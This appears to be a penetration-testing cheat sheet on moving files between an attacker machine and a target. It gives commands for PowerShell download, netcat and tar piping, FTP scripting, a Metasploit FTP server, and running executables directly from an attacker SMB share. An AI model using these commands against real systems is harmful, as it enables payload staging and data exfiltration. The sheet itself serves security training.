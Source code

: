 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[ip_address]/[file]','[file dest]')"
```

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## Netcat

## Receiving end
```
nc -l -p 1234 > out.file
```
## Sending end

```
nc -w 3 [destination] 1234 < out.file
```

For faster transfers if both sender and receiver has some basic *nix tools installed, you can compress the file during sending process,

On the ***receiving end***,

```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

On the ***sending end***,

```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient to confirm we have got an SMB share up and running

> `smbclient -L [attack machine ip address] --no-pass`

**On target machine**:

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[attack machine ip address]\Sharepath .`

Or execute the file directly from SMB `\\[attack machine ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows

